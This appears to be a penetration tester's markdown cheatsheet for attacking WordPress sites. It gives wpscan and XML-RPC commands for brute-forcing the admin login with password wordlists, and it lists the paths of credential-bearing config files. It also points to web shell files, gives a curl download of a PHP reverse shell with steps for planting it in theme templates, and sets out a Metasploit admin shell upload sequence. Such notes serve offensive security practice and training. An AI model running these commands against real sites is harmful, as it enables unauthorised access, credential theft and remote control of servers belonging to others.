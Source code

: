 # Wordpress 

Checklist:
- Login page
- `robots.txt`
- `/var/www/html/wp-config.php` contain credentials
- Enumerate users with `-u` with `wpscan`

## Cheatsheet

[Free 25 API requests per day](https://wpscan.com/pricing)

```bash
# -e not argument - default is vp,vt,tt,cb,dbe,u,m
wpscan --url $url --rua -e --api-token $APIKEY # -o filename
# optional - all plugins, themes, plus timthumbs
# vp,vt,tt,cb,dbe,u,m
ap at t tt dbe u m cb

# Output to file
-o 

# Brute forcing Admin user
wpscan --url $url --api-token $APIKEY -U admin -P /usr/share/wordlists/rockyou.txt

# Weird TLS issues
--disable-tls-checks
```


#### Scanning and Enumeration 

```bash
# Username can be guessed on WordPress since the username will generate a different error message if it doesn't exist.

# Interesting files
https://monsite.com/robots.txt
https://monsite.com/feed
https://monsite.com/readme.html
https://monsite.com/xmlrpc.php

# Configuration files
https://monsite.com/.htaccess
https://monsite.com/wp-config.php

# Directory listing
https://monsite.com/wp-includes

# XML-RPC attack (https://github.com/1N3/Wordpress-XMLRPC-Brute-Force-Exploit)
# You can bruteforce users
./wp-xml-brute http://target.com/xmlrpc.php passwords.txt username1

# If by any way you can upload files, go check /upload or /uploads for your files

# Get WPEngine's config file
/_wpeprivate/config.json
```

#### Directory  Busting 

Seclist wordlists
```bash
/usr/share/wordlists/seclists/Discovery/Web-Content/URLs/urls-wordpress-3.3.1.txt
/usr/share/wordlists/seclists/Discovery/Web-Content/CMS/wordpress.fuzz.txt
/usr/share/wordlists/seclists/Passwords/Honeypot-Captures/wordpress-attacks-july2014.txt
```

#### Shells
Seclists
```bash
/usr/share/wordlists/seclists/Web-Shells/WordPress
/usr/share/wordlists/Web-Shells/laudanum-1.0/wordpress/templates/shell.php
```

#### Reverse Shells

```bash
# You can reverse shell by editing templates (404.php, footer.php...)
# Theme Editor use a 404 template as it won't break the site.
# Plugin Editor then go to /wp-content/plugins/<pluginname.php>
# Beware Theme must be active 
curl -L https://raw.githubusercontent.com/jbarcia/Web-Shells/master/laudanum/wordpress/templates/php-reverse-shell.php -o php-reverse-shell.php
```



[[Metasploit]] - Minor improvements from https://www.hackingarticles.in/wordpress-reverse-shell/
```ruby
msfconsole -q -x 'use exploit/unix/webapp/wp_admin_shell_upload'
set RHOST domain.tld
set USERNAME admin
set PASSWORD admin
set targeturi /wordpress
exploit
```
For example the modifying the 404.php page for the twentyfifteen theme will located:
```php
/wordpress/wp-content/themes/twentyfifteen/404.php
```

#### Hashes
```bash
# Hashcat Hashmode = 400
```


## References

[haax.fr](https://cheatsheet.haax.fr/web-pentest/content-management-system-cms/wordpress/)
[hackingarticles - wordpress reverse shell](https://www.hackingarticles.in/wordpress-reverse-shell/)